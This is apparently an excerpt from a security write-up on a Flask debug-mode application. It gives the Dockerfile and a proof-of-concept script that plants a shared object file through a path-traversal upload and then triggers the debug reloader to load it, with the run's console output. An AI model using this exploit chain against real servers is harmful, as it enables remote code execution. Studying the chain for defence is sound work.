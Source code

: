 ```
@app.route('/telemetry', methods=('GET',))
def sendTelemetryData():
    data = request.args.get('data', 'Empty data')
    telemetry.sendTelemetryData(data)
    return 'Telemetry data has been submitted'
if __name__ == '__main__':
    app.run(debug=True)
```  
  
▼ Dockerfile  
```
FROM python:3.11-alpine
WORKDIR /app
ENV FLASK_APP=app.py
ENV FLASK_RUN_HOST=0.0.0.0
COPY ./src .
RUN pip3 install requests flask
RUN rm -rf /app/uploads && mkdir /app/uploads
EXPOSE 5000
ENTRYPOINT [ "flask", "run", "--debug" ] # debug mode is on
```  
  
▼ poc_shared_object_file_trigger_reload.py  
```
import requests
from io import BytesIO
from time import sleep
FILE_UPLOAD_ENDPOINT = '/upload'
SHARED_OBJECT_FILE_PATH = f'/../telemetry.so'
baseUrl = 'http://localhost:5000'
def getSharedObjectFileContent(filename):
    with open(filename, 'rb') as file:
        return file.read()
def uploadFile(filename, fileContent):
    fileBytes = BytesIO(fileContent)
    file = { 'file': (filename, fileBytes, 'text/plain') }
    requests.post(f'{baseUrl}{FILE_UPLOAD_ENDPOINT}', files=file).text
def triggerReloader():
    uploadFile('/../anything.pyc', b'foo') # create the file
    sleep(1) # wait for different modification time (mtime)
    uploadFile('/../anything.pyc', b'foo') # overwrite it again so that it'll have different mtime
if __name__ == '__main__':
    print('[*] Writing our shared object file...')
    sharedObjectFile = getSharedObjectFileContent('telemetry.so')
    uploadFile(SHARED_OBJECT_FILE_PATH, sharedObjectFile)
    print('[*] Triggering the reloader...')
    triggerReloader()
```  
```
!> python3 poc_shared_object_file_trigger_reload.py
[*] Writing our shared object file...
[*] Triggering the reloader...
```  
  